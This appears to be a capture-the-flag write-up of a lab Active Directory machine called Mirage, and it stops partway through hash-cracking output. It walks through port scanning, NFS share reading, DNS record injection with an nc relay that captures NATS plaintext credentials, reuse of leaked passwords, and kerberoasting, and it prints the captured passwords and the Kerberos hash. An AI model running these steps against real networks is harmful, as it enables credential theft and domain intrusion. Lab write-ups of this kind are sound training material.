# Mirage
## Host file setup
```python
❯❯❯ sudo nxc smb 10.129.232.163 --generate-hosts-file /etc/hosts     

SMB         10.129.232.163  445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
```

## Setting up kerberos realm
```python
❯❯❯ sudo nxc smb 10.129.232.163 --generate-krb5-file /etc/krb5.conf 
SMB         10.129.232.163  445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.232.163  445    dc01             [+] krb5 conf saved to: /etc/krb5.conf
SMB         10.129.232.163  445    dc01             [+] Run the following command to use the conf file: export KRB5_CONFIG=/etc/krb5.conf
```

Since NTLM is disabled, ill be interacting with kerberos so ill set this now

## Enumeration
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn 10.129.232.163 -vv

Nmap scan report for 10.129.232.163
Host is up, received user-set (0.013s latency).
Scanned at 2026-10-10 16:04:09 BST for 11s
Not shown: 65506 closed tcp ports (conn-refused)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
111/tcp   open  rpcbind          syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
2049/tcp  open  nfs              syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
4222/tcp  open  vrml-multi-use   syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49668/tcp open  unknown          syn-ack
51462/tcp open  unknown          syn-ack
51463/tcp open  unknown          syn-ack
51478/tcp open  unknown          syn-ack
51484/tcp open  unknown          syn-ack
51508/tcp open  unknown          syn-ack
58086/tcp open  unknown          syn-ack
62970/tcp open  unknown          syn-ack
```

### Nmap
```python
❯❯❯ nmap -p 53,88,111,135,139,389,445,464,593,636,2049,3268,3269,4222,5985 -A --min-rate=2000 -sT -Pn dc01.mirage.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-10 16:08 +0100
Nmap scan report for dc01.mirage.htb (10.129.232.163)
Host is up (0.013s latency).

PORT     STATE SERVICE         VERSION
53/tcp   open  domain          Simple DNS Plus
88/tcp   open  kerberos-sec    Microsoft Windows Kerberos (server time: 2026-10-10 22:08:49Z)
111/tcp  open  rpcbind         2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc           Microsoft Windows RPC
139/tcp  open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp  open  ldap            Microsoft Windows Active Directory LDAP (Domain: mirage.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http      Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: mirage.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
2049/tcp open  nlockmgr        1-4 (RPC #100021)
3268/tcp open  ldap            Microsoft Windows Active Directory LDAP (Domain: mirage.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
3269/tcp open  ssl/ldap        Microsoft Windows Active Directory LDAP (Domain: mirage.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.mirage.htb, DNS:mirage.htb, DNS:MIRAGE
| Not valid before: 2025-07-04T19:58:41
|_Not valid after:  2105-07-04T19:58:41
|_ssl-date: TLS randomness does not represent time
4222/tcp open  vrml-multi-use?
| fingerprint-strings: 
|   GenericLines: 
|     INFO {"server_id":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","server_name":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":17,"client_ip":"10.10.14.61","xkey":"XBXOTVN3PTCXANU3EO4N7VV6NSBAYCRRIEQZTS4PBMIFEP6KJDXWSFM6"} 
|     -ERR 'Authorization Violation'
|   GetRequest: 
|     INFO {"server_id":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","server_name":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":18,"client_ip":"10.10.14.61","xkey":"XBXOTVN3PTCXANU3EO4N7VV6NSBAYCRRIEQZTS4PBMIFEP6KJDXWSFM6"} 
|     -ERR 'Authorization Violation'
|   HTTPOptions: 
|     INFO {"server_id":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","server_name":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":19,"client_ip":"10.10.14.61","xkey":"XBXOTVN3PTCXANU3EO4N7VV6NSBAYCRRIEQZTS4PBMIFEP6KJDXWSFM6"} 
|     -ERR 'Authorization Violation'
|   NULL: 
|     INFO {"server_id":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","server_name":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":16,"client_ip":"10.10.14.61","xkey":"XBXOTVN3PTCXANU3EO4N7VV6NSBAYCRRIEQZTS4PBMIFEP6KJDXWSFM6"} 
|_    -ERR 'Authentication Timeout'
5985/tcp open  http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (96%), Microsoft Windows Server 2016 (96%), Microsoft Windows 11 24H2 (96%), Microsoft Windows Server 2022 (95%), Microsoft Windows 11 24H2 - 25H2 (95%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2019 (92%), Microsoft Windows Server 2016 or Server 2019 (91%), Microsoft Windows Server 2012 (91%), Microsoft Windows 10 1703 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## System time
```python
❯❯❯ ntpdate dc01.mirage.htb                    
2026-10-10 23:11:35.843886 (+0100) +25199.759920 +/- 0.006475 dc01.mirage.htb 10.129.232.163 s1 no-leap
CLOCK: step_systime: Operation not permitted
```

So the DC is running at +7h

## SMB (445)

Null auth not really possible when only kerberos is enabled

Guest account is also disabled

## NFS (2049)

Looks like root escape is not possible here

```python
❯❯❯ nxc nfs dc01.mirage.htb --shares
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Supported NFS versions: (2, 3, 4) (root escape:False)
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Enumerating NFS Shares
NFS         10.129.232.163  2049   dc01.mirage.htb  UID        Perms    Storage Usage    Share                          Access List    
NFS         10.129.232.163  2049   dc01.mirage.htb  ---        -----    -------------    -----                          -----------    
NFS         10.129.232.163  2049   dc01.mirage.htb  4294967294 r--      16.3GB/19.8GB    /MirageReports
```

```python
❯❯❯ nxc nfs dc01.mirage.htb --share '/MirageReports' --ls '/'
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Supported NFS versions: (2, 3, 4) (root escape:False)
NFS         10.129.232.163  2049   dc01.mirage.htb  UID        Perms  File Size     File Path
NFS         10.129.232.163  2049   dc01.mirage.htb  ---        -----  ---------     ---------
NFS         10.129.232.163  2049   dc01.mirage.htb  4294967294 dr--   64.0B         /MirageReports/.
NFS         10.129.232.163  2049   dc01.mirage.htb  4294967294 dr--   64.0B         /MirageReports/..
NFS         10.129.232.163  2049   dc01.mirage.htb  4294967294 -r-x   8.1MB         /MirageReports/Incident_Report_Missing_DNS_Record_nats-svc.pdf
NFS         10.129.232.163  2049   dc01.mirage.htb  4294967294 -r-x   8.9MB         /MirageReports/Mirage_Authentication_Hardening_Report.pdf
```

Looks like some pdf files in the NFS share

```python
❯❯❯ nxc nfs dc01.mirage.htb --share '/MirageReports' --get-file Incident_Report_Missing_DNS_Record_nats-svc.pdf Incident_Report_Missing_DNS_Record_nats-svc.pdf
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Supported NFS versions: (2, 3, 4) (root escape:False)
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Downloading Incident_Report_Missing_DNS_Record_nats-svc.pdf to Incident_Report_Missing_DNS_Record_nats-svc.pdf
NFS         10.129.232.163  2049   dc01.mirage.htb  File successfully downloaded from Incident_Report_Missing_DNS_Record_nats-svc.pdf to Incident_Report_Missing_DNS_Record_nats-svc.pdf

❯❯❯ nxc nfs dc01.mirage.htb --share '/MirageReports' --get-file Mirage_Authentication_Hardening_Report.pdf Mirage_Authentication_Hardening_Report.pdf
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Supported NFS versions: (2, 3, 4) (root escape:False)
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Downloading Mirage_Authentication_Hardening_Report.pdf to Mirage_Authentication_Hardening_Report.pdf
NFS         10.129.232.163  2049   dc01.mirage.htb  File successfully downloaded from Mirage_Authentication_Hardening_Report.pdf to Mirage_Authentication_Hardening_Report.pdf
```

Ill download both of these files and have a look

```python
❯❯❯ nxc nfs dc01.mirage.htb --share '/MirageReports' --put-file test.txt test.txt 
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Supported NFS versions: (2, 3, 4) (root escape:False)
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Uploading from test.txt to test.txt
NFS         10.129.232.163  2049   dc01.mirage.htb  [*] Trying to create test.txt
NFS         10.129.232.163  2049   dc01.mirage.htb  [-] Error writing file to share test.txt: NFS3ERR_ROFS
```

I dont have the ability to write to the share



There is a report of a missing DNS record for the NATS service, which is running on port 4222



Image above could be helpful for when and if i need to interact with NATS

Also a user `dev_account_a`





Some more potentially helpful info



The other report shows a potential user, but other than that basically just explains the disabling of NTLM, however its mentioned it was a gradual process, some systems may still allow NTLM

## NATS (4222)

```python
❯❯❯ echo | nc dc01.mirage.htb 4222 
INFO {"server_id":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","server_name":"NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV","version":"2.11.3","proto":1,"git_commit":"a82cfda","go":"go1.24.2","host":"0.0.0.0","port":4222,"headers":true,"auth_required":true,"max_payload":1048576,"jetstream":true,"client_id":80,"client_ip":"10.10.14.61","xkey":"XBXOTVN3PTCXANU3EO4N7VV6NSBAYCRRIEQZTS4PBMIFEP6KJDXWSFM6"} 
-ERR 'Authorization Violation'
```

Looks like there is an authorization error

Also looks like its giving me the version `2.11.3`, and also a reference to a git commit

https://hacktricks.wiki/en/network-services-pentesting/4222-pentesting-nats.html#credential-capture-via-dnsservice-impersonation

This attack could be possible, but for the moment i dont have credentials to add a DNS record yet

Just like the pdf file said, the record does not exist in DNS for the service

Ill use what hacktricks says and ill install the client

```python
❯❯❯ ~/go/bin/nats context save dc01.mirage.htb --server='nats://dc01.mirage.htb:4222'
NATS Configuration Context "dc01.mirage.htb"

  Server URLs: nats://dc01.mirage.htb:4222
         Path: /home/kali/.config/nats/context/dc01.mirage.htb.json
```

I first have to define the context of the system, this is almost like an environment variable in bash

## Credential capture via DNS/service impersonation

```python
❯❯❯ nsupdate                                                                    
> server 10.129.232.163
> update add nats-svc.mirage.htb 60 A 10.10.14.61
> send
> 
```

Ill add a DNS record for my IP

```python
❯❯❯ nc dc01.mirage.htb 4222 | head -1 | nc -lnvp 4222                           
listening on [any] 4222 ...
connect to [10.10.14.61] from (UNKNOWN) [10.129.232.163] 51057
CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"hx5h7F5554fP@1337!","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}
PING
```

I have now captured plaintext credentials

All this can be found in hacktricks:

https://hacktricks.wiki/en/network-services-pentesting/4222-pentesting-nats.html#credential-capture-via-dnsservice-impersonation

These creds dont work on the domain, but they could be for the NATS service

```python
❯❯❯ ~/go/bin/nats context add mirage -s nats://dc01.mirage.htb --user Dev_Account_A --password 'hx5h7F5554fP@1337!'
NATS Configuration Context "mirage"

  Server URLs: nats://dc01.mirage.htb
     Username: Dev_Account_A
     Password: ******************
         Path: /home/kali/.config/nats/context/mirage.json
```

I can add these to the client 

## NATS enumeration to find logged credentials

So with the new creds i can auth to the service and start enumerating it

```python
❯❯❯ ~/go/bin/nats account info --context mirage 
Account Information

                           User: Dev_Account_A
                        Account: dev
                        Expires: never
                      Client ID: 189
                      Client IP: 10.10.14.61
                            RTT: 13ms
              Headers Supported: true
                Maximum Payload: 1.0 MiB
                  Connected URL: nats://dc01.mirage.htb:4222
              Connected Address: 10.129.232.163:4222
            Connected Server ID: NCN74AT3XD6OBJIKFUN3TNNWT6Q3JNI4RUDLWYJPBMSNG4AVWU53MQSV
       Connected Server Version: 2.11.3
                 TLS Connection: no

JetStream Account Information:

Account Usage:

                        Storage: 570 B
                         Memory: 0 B
                        Streams: 1
                      Consumers: 0

Account Limits:

            Max Message Payload: 1.0 MiB

  Tier: Default:

      Configuration Requirements:

        Stream Requires Max Bytes Set: false
         Consumer Maximum Ack Pending: Unlimited

      Stream Resource Usage Limits:

                               Memory: 0 B of Unlimited 
                    Memory Per Stream: Unlimited
                              Storage: 570 B of Unlimited (1.0 MiB reserved)
                   Storage Per Stream: Unlimited
                              Streams: 1 of Unlimited
                            Consumers: Unlimited
```

This is just general account and service info

```python
❯❯❯ ~/go/bin/nats stream list --context mirage 
╭───────────────────────────────────────────────────────────────────────────────────╮
│                                      Streams                                      │
├───────────┬─────────────┬─────────────────────┬──────────┬───────┬────────────────┤
│ Name      │ Description │ Created             │ Messages │ Size  │ Last Message   │
├───────────┼─────────────┼─────────────────────┼──────────┼───────┼────────────────┤
│ auth_logs │             │ 2025-05-05 08:18:19 │ 5        │ 570 B │ 1y158d16h30m0s │
╰───────────┴─────────────┴─────────────────────┴──────────┴───────┴────────────────╯
```

There is a previous stream which i should be able to read

```python
❯❯❯ ~/go/bin/nats stream view auth_logs --context mirage
[1] Subject: logs.auth Received: 2025-05-05 08:18:56
{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


[2] Subject: logs.auth Received: 2025-05-05 08:19:24
{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


[3] Subject: logs.auth Received: 2025-05-05 08:19:25
{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


[4] Subject: logs.auth Received: 2025-05-05 08:19:26
{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


[5] Subject: logs.auth Received: 2025-05-05 08:19:27
{"user":"david.jjackson","password":"pN8kQmn6b86!1234@","ip":"10.10.10.20"}


17:50:57 Reached apparent end of data
```

I have found more credentials

```python
david.jjackson:pN8kQmn6b86!1234@
```

Ill try these on the domain

## Initial access on the domain

```python
 ❯❯❯ faketime -f +7h nxc smb dc01.mirage.htb -u 'david.jjackson' -p 'pN8kQmn6b86!1234@' -k
SMB         dc01.mirage.htb 445    dc01             [*]  x64 (name:dc01) (domain:mirage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc01.mirage.htb 445    dc01             [+] mirage.htb\david.jjackson:pN8kQmn6b86!1234@
```

The credentials get me access on the domain

## Kerberoasting leads to user compromise of `nathan.aadam`

```python
❯❯❯ faketime -f +7h nxc ldap dc01.mirage.htb -u 'david.jjackson' -p 'pN8kQmn6b86!1234@' -k --kerberoasting kerb.hash
LDAP        dc01.mirage.htb 389    DC01             [*] None (name:DC01) (domain:mirage.htb) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        dc01.mirage.htb 389    DC01             [+] mirage.htb\david.jjackson:pN8kQmn6b86!1234@ 
LDAP        dc01.mirage.htb 389    DC01             [*] Skipping disabled account: krbtgt
LDAP        dc01.mirage.htb 389    DC01             [*] Total of records returned 1
LDAP        dc01.mirage.htb 389    DC01             [*] sAMAccountName: nathan.aadam, memberOf: ['CN=Exchange_Admins,OU=Groups,OU=Admins,OU=IT_Staff,DC=mirage,DC=htb', 'CN=IT_Admins,OU=Groups,OU=Admins,OU=IT_Staff,DC=mirage,DC=htb'], pwdLastSet: 2025-06-23 22:18:18.584667, lastLogon: 2025-07-04 21:01:43.511763
LDAP        dc01.mirage.htb 389    DC01             $krb5tgs$23$*nathan.aadam$MIRAGE.HTB$mirage.htb\nathan.aadam*$b02d96bed6193309f86ae7a663257266$1411cb7dc46e14929866270df6bc2a99dd3bd1f09ee4d8a48a63eb5dab3060163f289f66742eedf5d42ea7dbf1a83b2ebeff02319da421d8636f852c4527c1f6978758009560011503348e8053537e0319de8ec1156d03ea438dce9a817993bc094cf0d6185f4ee5910b3ca24da3c69f7008557641a63657a685d5f634522a26d54150a21eedca0c52e44bfbe7972b551eadb19d8b19c417914cdad2e76ee8801c04befe4f5aff5745fcbab3a9dc04f1fa6b797dd70c790d92c29f2d53858ef29dd5d1011021ee99037e4993c569217eee1721a49ee3dce19d494efed872f1dee8fbea8fe3a3f3d94d288120269b44675dca6a36776d5dcd4193fb6f9fad85ec12690331daf9d711bafaf0aeaf00d6ae89509794baf517971815ea4de2f4c17c2067866eefeb0f8117005d51159d6e9a900af327aa93313a1322b1848281764ee523be5157cf844e46fcd7d847ec04308bfabce84121f280f5cc2f0f4b70d47fe9b09501e2e0a4ead7571fd5c76bb9acd8acb981eca50fa5cd4d6b3a6137aa159c9fcd3ac9cccdfd3ce4d158fe3a2dc1dac690e0bf34fe8f7ad1f46f9601f55c0701c5574a46aecfd91c0bba1be2d2e8c2de9509853cb5e630ba8375a8dfde8b94fd629e40e31731a4b5b642ae5d8173ecbece64d0d87ba7bde1939b6798b1773bd37795f3ae4e13708e1987a1cc72d1b1b8397e34a8e5041bf3b49b3e702ee0a87eba54f4dfd4672d6b0f64faa9a1aa6f744100a333a7659ed7be651b93d71b952c8794897849d5540edfc635722901666d904987d41533866e985304bf89cca3fef70625266ab99de05b57d7ca46b6b2fe023fa29ebcb255cb85055f82a80f97db617d71d9e84dcacf8befdcaae90495c7529e14a0a253d465399bc9a5e9aa3fdd3ceec4f9db0ed8321a00c6ba12af0c8d90848ccf761437b545b49f307c54cb8e5c1d5b6e2c02e355949b85a259b5e8c4f61f11e81aaf55803f18b88f3a64e69af59d416546bae5889eef897ba1f46364c556534fbeb910ba1d51cd5c36c7dbc4aee03f279348c84b74814f4d50d85b020c60d2847dd903dad2ad32fcdb43e7a6ce8bf665554184d6e335606114b23111ef77be658eeb260fc4e5eaa271831e839818b84e871d6ecc52f78f224f14e82e5aa4baf85e896702cf6e3f7fb5a888b7ac083e90d3ca4b9977aa366db4f528120969d5205b682a5a5a1ac90a868c05efffd7cd87427024c578d3028ae52faec66f70d409198fe4f72f9953d863ce9140d4f655791d1a14da599244a51e910ab6f5a9ca8993e88b5778b43866c9be35116a45c689f47504895be6b2ca87c0f2ada1b96b1a4fa360bbca46811578fff890081e630e23f66bda37a3849677676ea76d629e2bbc131d88a0885d1090c3b60790d4ba5e9b2bd2e69254240f1c489e5f8f2c19794c9d2e2b698ee800c3c6218ac844d3c8a9f5d13942f34f76f110191800660a6f0de7b1b79ae846e3f8b5a53576d7457021e86864dc8049f3239fdfc73cb3c17fa194e7f2ea0013ed07a3187e2920bfa3904235691e4e6abe75f6658887a323c936ab5257534ecec6db5cc9d72207fe0df8201d
```

There is a kerberoastable user, but will the hash crack?

Its e type 23 which means RC4, so it shouldnt take long to run through the wordlist

```python
❯❯❯ hashcat kerb.hash /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*nathan.aadam$MIRAGE.HTB$mirage.htb\nathan.aadam*$b02d96bed6193309f86ae7a663257266$1411cb7dc46e14929866270df6bc2a99dd3bd1f09ee4d8a48a63eb5dab3060163f289f66742eedf5d42ea7dbf1a83b2ebeff02319da421d8636f852c4527c1f6978758009560011503348e8053537e0319de8ec1156d03ea438dce9a817993bc094cf0d6185f4ee5910b3ca24da3c69f7008557641a63657a685d5f634522a26d54150a21eedca0c52e44bfbe7972b551eadb19d8b19c417914cdad2e76ee8801c04befe4f5aff5745fcbab3a9dc04f1fa6b797dd70c790d92c29f2d53858ef29dd5d1011021ee99037e4993c569217eee1721a49ee3dce19d494efed872f1dee8fbea8fe3a3f3d94d288120269b44675dca6a36776d5dcd4193fb6f9fad85ec12690331daf9d711bafaf0aeaf00d6ae89509794baf517971815ea4de2f4c17c2067866eefeb0f8117005d51159d6e9a900af327aa93313a1322b1848281764ee523be5157cf844e46fcd7d847ec04308bfabce84121f280f5cc2f0f4b70d47fe9b09501e2e0a4ead7571fd5c76bb9acd8acb981eca50fa5cd4d6b3a6137aa159c9fcd3ac9cccdfd3ce4d158fe3a2dc1dac690e0bf34fe8f7ad1f46f9601f55c0701c5574a46aecfd91c0bba1be2d2e8c2de9509853cb5e630ba8375a8dfde8b94fd629e40e31731a4b5b642ae5d8173ecbece64d0d87ba7bde1939b6798b1773bd37795f3ae4e13708e1987a1cc72d1b1b8397e34a8e5041bf3b49b3e702ee0a87eba54f4dfd4672d6b0f64faa9a1aa6f744100a333a7659ed7be651b93d71b952c8794897849d5540edfc635722901666d904987d41533866e985304bf89cca3fef70625266ab99de05b57d7ca46b6b2fe023fa29ebcb255cb85055f82a80f97db617d71d9e84dcacf8befdcaae90495c7529e14a0a253d465399bc9a5e9aa3fdd3ceec4f9db0ed8321a00c6ba12af0c8d90848ccf761437b545b49f307c54cb8e5c1d5b6e2c02e355949b85a259b5e8c4f61f11e81aaf55803f18b88f3a64e69af59d416546bae5889eef897ba1f46364c556534fbeb910ba1d51cd5c36c7dbc4aee03f279348c84b74814f4d50d85b020c60d2847dd903dad2ad32fcdb43e7a6ce8bf665554184d6e335606114b23111ef77be658eeb260fc4e5eaa271831e839818b84e871d6ecc52f78f224f14e82e5aa4ba